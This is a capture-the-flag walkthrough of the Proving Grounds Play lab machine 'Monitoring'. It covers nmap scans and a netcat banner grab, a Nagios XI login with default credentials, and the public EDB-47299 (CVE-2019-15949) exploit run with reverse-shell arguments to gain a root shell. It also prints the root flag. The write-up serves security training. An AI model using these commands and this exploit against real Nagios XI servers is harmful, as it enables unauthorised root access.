






# Proving Grounds Play — Monitoring | Full Walkthrough

> **Machine:** Monitoring
> **Difficulty:** Easy (Linux)
> **Author:** vodanhtieutot
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Service Enumeration — Port 5667 (NSCA)](#3-service-enumeration--port-5667-nsca)
4. [Web Application Analysis — Nagios XI](#4-web-application-analysis--nagios-xi)
5. [Initial Access — Default Credentials](#5-initial-access--default-credentials)
6. [Exploitation — Nagios XI RCE (EDB-47299)](#6-exploitation--nagios-xi-rce-edb-47299)
7. [Root Shell & Flag Capture](#7-root-shell--flag-capture)
8. [Flags & Answers Summary](#8-flags--answers-summary)
9. [Attack Chain Summary](#9-attack-chain-summary)
10. [Tools Used](#10-tools-used)

---

## 1. Overview

**Monitoring** is an Easy-rated Linux machine on Proving Grounds Play running **Nagios XI** — a widely-deployed network monitoring platform. The attack path is straightforward: discover Nagios XI on port 80/443, log in with the **default credentials** `nagiosadmin:admin`, then exploit **CVE-2019-15949 (EDB-47299)** — an authenticated Remote Code Execution vulnerability in Nagios XI 5.6.5 that directly spawns a **root reverse shell**, requiring no separate privilege escalation step.

```
Nmap → Port 22/25/80/389/443/5667
→ nc 5667 → NSCA (Nagios Service Check Acceptor)
→ Browse http://192.168.235.136/nagiosxi/login.php → Nagios XI login
→ Default credentials nagiosadmin:admin → admin dashboard ✓
→ searchsploit nagios xi → EDB-47299 (Nagios XI 5.6.5 RCE / Root PrivEsc)
→ searchsploit -m 47299 → 47299.php
→ php 47299.php --host=192.168.235.136 --ssl=false --user=nagiosadmin --pass=admin
                --reverseip=192.168.45.218 --reverseport=5555
→ nc -lvnp 5555 → root@ubuntu shell ✓
→ cat /root/proof.txt ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.235.136` |
| Machine Name | `monitoring` |
| OS | Ubuntu Linux (Apache 2.4.18) |
| Open Ports | 22, 25, 80, 389, 443, 5667 |
| Application | Nagios XI (trial expired) |
| Attacker IP | `192.168.45.218` |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

```bash
nmap -Pn -p- --min-rate 5000 192.168.235.136
```



Six ports open:

| Port | State | Service |
|---|---|---|
| 22/tcp | open | ssh |
| 25/tcp | open | smtp |
| 80/tcp | open | http |
| 389/tcp | open | ldap |
| 443/tcp | open | https |
| 5667/tcp | open | unknown |

### 2.2 Service & Script Scan

```bash
nmap -sC -sV -A -Pn -p 22,25,80,389,443,5667 192.168.235.136
```



Key findings:

| Port | Service | Details |
|---|---|---|
| 22/tcp | SSH | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 |
| 25/tcp | SMTP | Postfix smtpd |
| 80/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) — **HTTP Title: Nagios XI** |
| 389/tcp | LDAP | OpenLDAP 2.2.X – 2.3.X |
| 443/tcp | HTTPS | Apache 2.4.18 — SSL cert: **org=Nagios Enterprises**, **HTTP Title: Nagios XI** |
| 5667/tcp | ? | tcpwrapped — requires manual banner grabbing |

> **Two major findings:**
> - Port 80/443 is running **Nagios XI** — confirmed by both HTTP title and the SSL certificate issued to Nagios Enterprises, Minnesota, US.
> - Port 5667 is `tcpwrapped` — Nmap couldn't identify it. Requires manual probing with `nc`.

---

## 3. Service Enumeration — Port 5667 (NSCA)

### 3.1 Banner Grab with Netcat

```bash
nc -nv 192.168.235.136 5667
```

![nc -nv 192.168.235.136 5667 → (UNKNOWN) [192.168.235.136] 5667 (nsca) open](images/image3.png)

```
(UNKNOWN) [192.168.235.136] 5667 (nsca) open
```

> **Identified:** Port 5667 is **NSCA** (Nagios Service Check Acceptor) — the daemon that receives passive check results from remote hosts and passes them to the Nagios monitoring engine. This is a standard component of a Nagios deployment and not directly exploitable here. Focus shifts to the Nagios XI web interface.

---

## 4. Web Application Analysis — Nagios XI

### 4.1 Browsing the Nagios XI Login Page

Navigate to `http://192.168.235.136/nagiosxi/login.php`:



The login page is a standard **Nagios XI** authentication form. The banner on the right confirms this is a Nagios XI instance with product variants XI, F, LS, NA.

> **Next step:** Try the well-known Nagios XI default credentials before attempting any brute-force.

---

## 5. Initial Access — Default Credentials

### 5.1 Login with Default Credentials

```
Username: nagiosadmin
Password: admin
```



```
Logged in as: nagiosadmin
Trial copy of Nagios XI has expired — Purchase a License Now
Notices:
  [i] New Nagios XI Release Available!
  [!] Unhandled Problems! → 2 Unhandled Service Problems
```

> 🎯 **Default credentials accepted: `nagiosadmin:admin`**
>
> Full admin access to Nagios XI confirmed. The installation was left with default credentials and no license — a severely misconfigured production-style deployment.
>
> **Key observation:** The trial expiry notice and "New Nagios XI Release Available" banner suggest this is an **older, unpatched version** of Nagios XI — likely vulnerable to known RCE exploits.

---

## 6. Exploitation — Nagios XI RCE (EDB-47299)

### 6.1 Searching for Known Exploits

```bash
searchsploit nagios xi
```



`searchsploit` returns a comprehensive list of Nagios XI vulnerabilities. The most relevant entry:

| Exploit | Path |
|---|---|
| **Nagios XI 5.6.5 – Remote Code Execution / Root Privilege Escalation** | `php/webapps/47299.php` |
| Nagios XI 5.2.6–5.4.12 – Chained Remote Code Execution (Metasploit) | `linux/remote/44969.rb` |
| Nagios XI – Authenticated Remote Command Execution (Metasploit) | `linux/remote/48191.rb` |
| Nagios XI 5.6.6 – Authenticated RCE | `multiple/webapps/52138.txt` |

> **EDB-47299** targets Nagios XI 5.6.5 and provides authenticated RCE with **direct root privilege escalation** in a single PHP exploit script — no separate privesc step required.

### 6.2 Copying the Exploit

```bash
searchsploit -m 47299
```



```
  Exploit: Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47299
     Path: /usr/share/exploitdb/exploits/php/webapps/47299.php
File Type: PHP script, Unicode text, UTF-8 text, with very long lines (624)
Copied to: /home/vodanhtieutot/47299.php
```

### 6.3 Setting Up the Listener

On the attacker machine, start a Netcat listener before running the exploit:

```bash
nc -lvnp 5555
```

### 6.4 Running the Exploit

```bash
rm cookie.txt && php 47299.php \
  --host=192.168.235.136 \
  --ssl=false \
  --user=nagiosadmin \
  --pass=admin \
  --reverseip=192.168.45.218 \
  --reverseport=5555
```

![php 47299.php execution — [+] Grabbing NSP from login.php, [+] Authentication success, [+] Admin access confirmed, [+] Uploading payload, [+] Payload uploaded, [+] Triggering payload: if successful, a reverse shell will spawn at 192.168.45.218:5555](images/image8.png)

```
[+] Grabbing NSP from: http://192.168.235.136/nagiosxi/login.php
[+] Retrieved page contents from: http://192.168.235.136/nagiosxi/login.php
[+] Extracted NSP value: 2a6674c361d1944e39cd4433d58fc93a592b9535735ddb2c8993912f65899abe
[+] Attempting to login ...
[+] Authentication success
[+] Checking we have admin rights ...
[+] Admin access confirmed
[+] Grabbing NSP from: http://192.168.235.136/nagiosxi/admin/monitoringplugins.php
[+] Retrieved page contents from: http://192.168.235.136/nagiosxi/admin/monitoringplugins.php
[+] Extracted NSP value: 4c9f3cf6e88c09473dac9774ac9566c250f663c706a6b07eba44c38460327dc5
[+] Uploading payload ...
[+] Payload uploaded
[+] Triggering payload: if successful, a reverse shell will spawn at 192.168.45.218:5555
```

**How EDB-47299 works:**
1. Authenticates to Nagios XI using provided credentials, extracts CSRF token (NSP value)
2. Uses admin access to upload a malicious PHP payload via the **Monitoring Plugins** upload endpoint (`/admin/monitoringplugins.php`)
3. Triggers the uploaded payload — which runs as the web server user (root in this misconfigured setup)
4. A reverse shell connects back to the attacker's listener

---

## 7. Root Shell & Flag Capture

### 7.1 Root Reverse Shell

The Netcat listener catches the incoming connection:

```bash
nc -lvnp 5555
```

![nc -lvnp 5555 — listening on [any] 5555, connect to 192.168.45.218 from (UNKNOWN) [192.168.235.136] 45882, root@ubuntu shell prompt navigating to /root, dir → proof.txt scripts, cat proof.txt → 5b344451e49dd6ce3b84b113c4f3cebb](images/image9.png)

```
listening on [any] 5555 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.235.136] 45882
bash: cannot set terminal process group (954): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile#
```

> ✅ **Root shell obtained directly via the exploit.** The web server process runs as `root` — an additional misconfiguration on top of the default credentials.

### 7.2 Root Flag — proof.txt

Navigate to `/root` and read the flag:

```bash
root@ubuntu:/usr/local/nagiosxi/...# cd /root
root@ubuntu:~# dir
proof.txt  scripts
root@ubuntu:~# cat proof.txt
5b344451e49dd6ce3b84b113c4f3cebb
```

> 🚩 **proof.txt (Root Flag):** `5b344451e49dd6ce3b84b113c4f3cebb`

---

## 8. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| Root Flag | `/root/proof.txt` | `5b344451e49dd6ce3b84b113c4f3cebb` |

---

## 9. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 192.168.235.136
        → Port 22 (ssh), 25 (smtp), 80 (http), 389 (ldap), 443 (https), 5667 (unknown)

[2] nmap -sC -sV -A -Pn -p 22,25,80,389,443,5667 192.168.235.136
        → OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
        → Postfix smtpd
        → Apache 2.4.18 (Ubuntu)
        → OpenLDAP 2.2.X – 2.3.X
        → HTTP Title: Nagios XI (both port 80 and 443)
        → SSL cert: org=Nagios Enterprises, Minnesota, US
        → Port 5667: tcpwrapped

[3] nc -nv 192.168.235.136 5667
        → (UNKNOWN) [192.168.235.136] 5667 (nsca) open
        → Port 5667 = NSCA (Nagios Service Check Acceptor) — not exploitable directly

[4] Browse http://192.168.235.136/nagiosxi/login.php
        → Nagios XI login page

[5] Login with default credentials: nagiosadmin:admin
        → Nagios XI Home Dashboard — full admin access ✓
        → Trial expired notice → old unpatched version
        → 2 Unhandled Service Problems

[6] searchsploit nagios xi
        → EDB-47299: Nagios XI 5.6.5 – RCE / Root Privilege Escalation
           (php/webapps/47299.php)

[7] searchsploit -m 47299
        → Copied to /home/vodanhtieutot/47299.php

[8] nc -lvnp 5555  (on attacker machine — set up listener first)

[9] rm cookie.txt && php 47299.php \
      --host=192.168.235.136 --ssl=false \
      --user=nagiosadmin --pass=admin \
      --reverseip=192.168.45.218 --reverseport=5555
        → [+] Authentication success
        → [+] Admin access confirmed
        → [+] Payload uploaded
        → [+] Triggering payload...

[10] nc -lvnp 5555 catches connection from 192.168.235.136:45882
        → root@ubuntu shell ✓
        → cd /root → cat proof.txt → 5b344451e49dd6ce3b84b113c4f3cebb ✓
```

---

## 10. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning (`-Pn -p- --min-rate`) & service fingerprinting (`-sC -sV -A`) |
| `nc` (netcat) | Banner grab on port 5667 to identify NSCA service; reverse shell listener (`-lvnp 5555`) |
| Firefox / Browser | Browse Nagios XI login and admin dashboard |
| `searchsploit` | Search ExploitDB for Nagios XI vulnerabilities; copy EDB-47299 with `-m 47299` |
| `php` | Execute the EDB-47299 PHP exploit script |
| EDB-47299 (CVE-2019-15949) | Authenticated RCE + Root Privilege Escalation against Nagios XI 5.6.5 |
